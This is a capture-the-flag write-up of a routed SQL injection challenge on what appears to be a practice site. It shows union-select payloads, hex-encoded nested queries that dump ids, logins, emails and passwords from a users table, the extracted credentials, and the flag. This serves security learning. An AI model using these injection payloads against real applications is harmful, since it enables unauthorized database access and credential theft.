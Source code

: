```yaml
---
layout: default
title: SQL-Injection-Routed
---
```


Here we got this paper [routed SQL injection](https://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html), which talks about this vulnerability.

In a manner way, the result from the first query is going to the second query, and there we can achieve sql injection that will be displayed on the page.

So, the first query we tries is:
```sql
' union select 'a' -- 
```
And we get:
```
[+] Requested login: ' union select 'a' -- <br>
[+] Found ID: <br>
[+] Email: <br>
```

Okay, let's try something else, let's try give this `' or 1=1 -- ` but after hex, which gives us: `0x27206f7220313d31202d2d20`

So, the query is:
```sql
' union select 0x27206f7220313d31202d2d20 -- 
```
And we get back:
```
[+] Requested login: ' union select 0x27206f7220313d31202d2d20 -- <br>
[+] Found ID: 3<br>
[+] Email: admin@sqli_me.com<br>
```

Alright, now let's try exfiltrate the data, I guess there is column which is called `password`, and also of course `email`, `id`, `login`.

So this will be our query:
```sql
' union select concat(id,'~',login,'~',email,'~',password) as id,null from users limit 0,1 -- 
```

```sql
' union select 0x2720756e696f6e2073656c65637420636f6e6361742869642c277e272c6c6f67696e2c277e272c656d61696c2c277e272c70617373776f7264292061732069642c6e756c6c2066726f6d207573657273206c696d697420302c31202d2d20 -- 
```

Which gives us:
```
[+] Requested login: ' union select 0x2720756e696f6e2073656c65637420636f6e6361742869642c277e272c6c6f67696e2c277e272c656d61696c2c277e272c70617373776f7264292061732069642c6e756c6c2066726f6d207573657273206c696d697420302c31202d2d20 -- <br>
[+] Found ID: 3~admin~admin@sqli_me.com~qs89QdAs9A<br>
[+] Email: <br>
```

We can exfiltrate the rest of the data:
```
3~admin~admin@sqli_me.com~qs89QdAs9A
1~jean~jean@sqli_me.com~superpass
2~michel~michel@sqli_me.com~mypass
```

![FINAL](./images/SQL-Injection-Routed_FINAL.png)

**Flag:** **_`qs89QdAs9A`_**